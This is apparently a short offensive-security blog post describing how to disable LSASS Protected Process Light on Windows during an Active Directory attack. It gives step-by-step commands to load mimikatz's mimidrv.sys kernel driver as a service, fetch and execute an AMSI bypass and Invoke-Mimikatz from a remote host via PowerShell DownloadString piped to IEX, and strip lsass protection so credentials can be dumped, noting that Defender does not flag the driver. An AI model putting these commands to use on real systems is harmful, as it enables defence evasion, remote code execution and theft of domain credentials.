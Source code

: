 ```yaml
---
layout: post
title: Disabling LSA protection with mimidrv.sys
---
```

![](/images/2021-1-1-mimidrv/0.png)


During your Active directory attack, once you have elevated your privilege to NT SYSTEM, the first thing we can do is to dump hashes from LSASS but what if the LSASS is protcted.

If LSASS protection is enabled we cannot tamper with the process, if LSASS is marked as Protected Process Light (PPL) then protection is turned on !

PS: You can use a powershell script such as HostRecon.ps1 to find out if protection is enabled.

In this post we will take a look at how we can run mimikatz to do this by the driver MIMIKATZ uses to accomplish this !

```
mimidrv.sys
```

First thing to do is to upload the driver file into disk, fortunately, defender does not flag this as malicious !


Now we will create as service and load the driver

```
sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
```

Now we will start the service

```

sc start mimidrv
```

With the driver running, we can instruct it to turn off the LSASS PPL protection.

In order to do that, we will first disable AMSI and load mimikatz (the whole point of this exercise to minimize the number of time we run mimikatz)

```
Step 1: Start powershell
Step 2: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
Step 3: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
Step 4: Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 


```

![](/images/2021-1-1-mimidrv/1.png)

With the driver running combined with the above command, we have successfully disabled the protection !!

Now we can use any method to dump the lSASS process and download it offline and use tools such as "MIMIKATZ" or "PYPYKATZ" to extract the credentials
